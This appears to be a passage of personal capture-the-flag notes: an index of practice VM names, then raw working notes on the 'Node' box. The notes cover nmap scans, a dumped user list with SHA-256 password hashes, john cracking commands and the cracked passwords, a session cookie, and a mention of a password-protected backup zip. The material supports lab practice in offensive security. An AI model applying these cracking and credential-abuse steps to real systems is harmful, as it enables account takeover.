







Index
- BasicPenTestingBox
- BasicPenTestingBox2
- bee box
- BossPlayer
- CyberChallenge19
- Dawn
- DC-1
- DC-2
- DC-3
- DerpNStik
- EVM
- Fowsniff
- Gemini Inc 1
- JIS_CTF
- mullidae
- PumpkinFestival
- PumpkinGarden
- PumpkinRaising
- QuaoarCTFHackfest2016
- Rickdiculously Easy
- silky02
- silky1
- Typhoon
- VMS to try
- xss challenges
- Blue
- mr robot
- Unfinished VMS
- CasinoRoyale
- WinterMute Straylight
- connect the dots (unfinished)
- arsenal
- heist
- MyHouse Box
- Sputnik
- Node
- HackInOs
- Seattle
- DC416-Galahad
- Not a Box
- ICE
Node
Node boxNmap scan report for 192.168.56.110
Host is up (0.00042s latency).
Not shown: 998 filtered ports
PORT STATE SERVICE
22/tcp open ssh
3000/tcp open ppp
MAC Address: 08:00:27:9E:E2:CC (Oracle VirtualBox virtual NIC)
Nmap done: 255 IP addresses (3 hosts up) scanned in 7.57 seconds
root@kali:~#
root@kali:~# nmap -A -p- 192.168.56.110
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-06 19:28 EST
Nmap scan report for 192.168.56.110
Host is up (0.00041s latency).
Not shown: 65533 filtered ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 dc:5e:34:a6:25:db:43:ec:eb:40:f4:96:7b:8e:d1:da (RSA)
| 256 6c:8e:5e:5f:4f:d5:41:7d:18:95:d1:dc:2e:3f:e5:9c (ECDSA)
|_ 256 d8:78:b8:5d:85:ff:ad:7b:e6:e2:b5:da:1e:52:62:36 (ED25519)
3000/tcp open hadoop-tasktracker Apache Hadoop
| hadoop-datanode-info:
|_ Logs: /login
| hadoop-tasktracker-info:
|_ Logs: /login
|_http-title: MyPlace
MAC Address: 08:00:27:9E:E2:CC (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE
HOP RTT ADDRESS
1 0.41 ms 192.168.56.110
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 119.33 seconds
root@kali:~#




[{"_id":"59a7368398aa325cc03ee51d","username":"tom","password":"f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240","is_admin":false},{"_id":"59a7368e98aa325cc03ee51e","username":"mark","password":"de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73","is_admin":false},{"_id":"59aa9781cced6f1d1490fce9","username":"rastating","password":"5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0","is_admin":false}]
Attempting to crack these hashes:
root@kali:~# john --format=Raw-SHA256 --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt --rules node_hashes
Using default input encoding: UTF-8
Loaded 3 password hashes with no different salts (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob (?)
snowflake (?)
2g 0:00:00:00 DONE (2019-11-06 19:53) 6.060g/s 1080Kp/s 1080Kc/s 1477KC/s Sombras..Bambining
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed
root@kali:~#
Cookie when logged in as tom:
A5.nX4Yh0IVaB7eTbgs9IGf8c0DCKvNXu0oy2x4Myf8jDs


PASSWORD FOR ADMIN ACCOUNT:
root@kali:~# john --format=Raw-SHA256 --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt --rules node_hashes
Using default input encoding: UTF-8
Loaded 4 password hashes with no different salts (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Remaining 2 password hashes with no different salts
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchester (?)
1g 0:00:00:00 DONE (2019-11-06 20:07) 1.123g/s 400639p/s 400639c/s 474275C/s Sombras..Bambining
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session complete

--> backup file is a password protected zip